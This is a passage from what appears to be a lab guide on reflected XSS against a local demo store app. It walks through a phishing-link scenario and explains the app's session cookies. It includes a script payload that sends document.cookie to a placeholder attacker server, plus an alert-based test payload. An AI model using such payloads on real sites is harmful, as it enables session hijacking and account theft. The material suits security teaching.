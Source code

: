 2. **Attacker sends link to victim** (via email, chat, etc.):
   ```
   "Hey! Check out this cool product search: 
   http://localhost:3000/?search=wireless+headphones"
   ```
   (But the real URL contains the XSS payload)

3. **Victim clicks the link**:
   - Page loads normally
   - Search appears to be for "wireless headphones"
   - XSS payload executes in background
   - Cookie is stolen and sent to attacker

4. **Attacker hijacks session**:
   - Uses stolen cookie to access victim's dashboard
   - Performs actions as the victim

### **3. Cookie Theft via XSS**
**Goal**: Steal the `techstore.sid` session cookie

**Payload**:
```html
<script>
  fetch('http://attacker-server.com/steal', {
    method: 'POST',
    body: 'cookie=' + document.cookie
  });
</script>
```

**Alternative (for testing)**:
```html
<script>alert('Cookie: ' + document.cookie)</script>
```

## 🍪 **Understanding the Cookies**

### **`techstore.sid`** - The Target Cookie
- **Type**: Session ID cookie
- **Purpose**: Identifies the user's session
- **Value**: Encoded session identifier (e.g., `s%3Aabc123def456.xyz789`)
- **Security**: This is what attackers want to steal!

### **`connect.sid`** - Legacy Cookie
- **Type**: Default Express session cookie
- **Status**: Should be cleared, but might exist from previous sessions
- **Note**: Not the primary target

### **`cid`** - Third-party Cookie
- **Type**: External tracking cookie
- **Source**: Browser or extension
- **Note**: Not part of our application
